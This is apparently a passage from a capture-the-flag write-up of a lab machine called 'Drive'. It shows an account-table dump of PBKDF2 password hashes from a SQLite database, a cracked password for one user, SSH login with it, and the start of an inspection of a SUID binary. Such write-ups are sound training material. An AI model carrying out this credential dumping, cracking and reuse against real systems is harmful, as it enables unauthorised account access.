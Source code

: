 ```
systemd-private-b918f4f39f594aaa9e737d75e41f5952-ModemManager.service-zVdagg
systemd-private-b918f4f39f594aaa9e737d75e41f5952-systemd-logind.service-NepVLh
systemd-private-b918f4f39f594aaa9e737d75e41f5952-systemd-resolved.service-hmMWog
systemd-private-b918f4f39f594aaa9e737d75e41f5952-systemd-timesyncd.service-C9fgff
vmware-root_733-4248680474
martin@drive:/tmp$ sqlite3 db.sqlite3 
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> select username,password from accounts_customuser
   ...> ;
admin|pbkdf2_sha256$390000$ZjZj164ssfwWg7UcR8q4kZ$KKbWkEQCpLzYd82QUBq65aA9j3+IkHI6KK9Ue8nZeFU=
jamesMason|pbkdf2_sha256$390000$npEvp7CFtZzEEVp9lqDJOO$So15//tmwvM9lEtQshaDv+mFMESNQKIKJ8vj/dP4WIo=
martinCruz|pbkdf2_sha256$390000$GRpDkOskh4irD53lwQmfAY$klDWUZ9G6k4KK4VJUdXqlHrSaWlRLOqxEvipIpI5NDM=
tomHands|pbkdf2_sha256$390000$wWT8yUbQnRlMVJwMAVHJjW$B98WdQOfutEZ8lHUcGeo3nR326QCQjwZ9lKhfk9gtro=
crisDisel|pbkdf2_sha256$390000$TBrOKpDIumk7FP0m0FosWa$t2wHR09YbXbB0pKzIVIn9Y3jlI3pzH0/jjXK0RDcP6U=
sqlite> 

```

# Cracking New Hashes

The hashes were extremely slow to crack. The password for the `tomHands` user cracked.

```
tomHands:pbkdf2_sha256$390000$wWT8yUbQnRlMVJwMAVHJjW$B98WdQOfutEZ8lHUcGeo3nR326QCQjwZ9lKhfk9gtro=:johnmayer7
```

# Logging in as Tom via SSH

The new credentials were valid and allowed SSH access. No sudo access. User flag captured.

```
tom@drive:~$ sudo -l
[sudo] password for tom: 
Sorry, user tom may not run sudo on drive.
tom@drive:~$ ls
doodleGrive-cli  README.txt  user.txt
tom@drive:~$ 
```

# Inspecting Binary (doodleGrive-cli)

Tom had a custom binary in their home directory. It has SUID abilities so it can run as root if needed. After running the binary to test it further, it will ask for a username and password.

![43cf2e7eca308af3c6b740ae495fdb54.png](/assets/img/43cf2e7eca308af3c6b740ae495fdb54.png)
